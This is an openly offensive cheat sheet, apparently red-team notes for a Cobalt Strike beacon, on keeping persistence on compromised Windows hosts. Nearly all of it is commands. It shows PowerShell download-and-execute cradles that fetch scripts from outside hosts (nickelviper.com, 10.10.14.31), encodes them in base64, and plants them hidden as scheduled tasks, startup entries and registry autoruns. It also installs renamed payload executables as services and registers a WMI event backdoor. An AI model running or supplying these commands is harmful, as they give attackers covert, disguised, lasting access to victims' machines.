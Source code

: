 # Host Persistence (Normal User)

# Default location for powershell

    C:\windows\syswow64\windowspowershell\v1.0\powershell
    C:\Windows\System32\WindowsPowerShell\v1.0\powershell

# Encode the payload for handling extra quotes
# Powershell

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

#Linux 

    $ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Final Command

    powershell -nop -enc <BASE64_ENCODED_PAYLOAD>

# Persistence - Task Scheduler

    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoAC...GEAIgApACkA" -n "Updater" -m add -o hourly

# Persistence - Startup Folder

    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo..vAGEAIgApACkA" -f "UserEnvSetup" -m add

# Persistence - Registry Autorun

    beacon> cd C:\ProgramData
    beacon> upload C:\Payloads\http_x64.exe
    beacon> mv http_x64.exe updater.exe
    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

# Host Persistence (Privileged System User)

# Windows Service

    beacon> cd C:\Windows
    beacon> upload C:\Payloads\tcp-local_x64.svc.exe
    beacon> mv tcp-local_x64.svc.exe legit-svc.exe
    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

# Register WMI event to trigger our payload

    beacon> cd C:\Windows
    beacon> upload C:\Payloads\dns_x64.exe
    beacon> powershell-import C:\Tools\PowerLurk.ps1
    beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe

